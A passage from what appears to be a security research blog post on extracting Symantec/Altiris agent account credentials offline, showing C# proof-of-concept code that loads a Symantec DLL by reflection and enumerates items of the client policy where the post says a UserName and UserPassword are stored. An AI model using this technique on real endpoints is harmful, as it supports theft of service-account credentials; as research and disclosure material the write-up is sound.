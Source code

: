 ```csharp
// Get the path of the native library AeXAgentExt.dll
RegistryKey registryKey = Registry.LocalMachine.OpenSubKey(
    "Software\\\\Altiris\\\\Altiris Agent\\\\Modules\\\\x64"
);
string sCryptoDll = (string)registryKey.GetValue("AeXAgentExt.dll");

// Use reflection to instantiate the AgentStorage class
var asm = Assembly.LoadFile("C:\\Temp\\Symantec.Deployment.PSComponent.dll");
var type = asm.GetType("Symantec.NSAgent.AgentStorage");
var ctors = type.GetConstructors();
var obj = ctors[0].Invoke(
    new object[] {(String)sCryptoDll, (UInt32)0 }
);

// Enumerate items of the policy with ID {142F2372-E64D-43C0-A207-17DB2C0552C4}
var policy_path = "aexs://AgentCore\\Policy\\{142F2372-E64D-43C0-A207-17DB2C0552C4}";
var mthd_enumitems = type.GetMethod("EnumItems");
var res = (List<string>)mthd_enumitems.Invoke(
    obj,
    new object[] { policy_path, (UInt32)0 }
);

Console.WriteLine(policy_path);

foreach (var item in res) {
    Console.WriteLine("\\__ " + item);
}
```

![Enumerating items of the Agent Storage](/assets/posts/2025-06-15-offline-extraction-of-symantec-account-connectivity-credentials/poc-agentstorage-enumitems.png)
*Enumerating items of the Agent Storage*

> On the screenshot above, you may notice that the IDs differ from the ones shown in the previous blog post. As far as I can tell, it looks like the *Client Policy* file gets updated regularly, and each time the `UserName` and `UserPassword` are assigned a new ID. I have no idea why, but that's how it is.
{: .prompt-info}
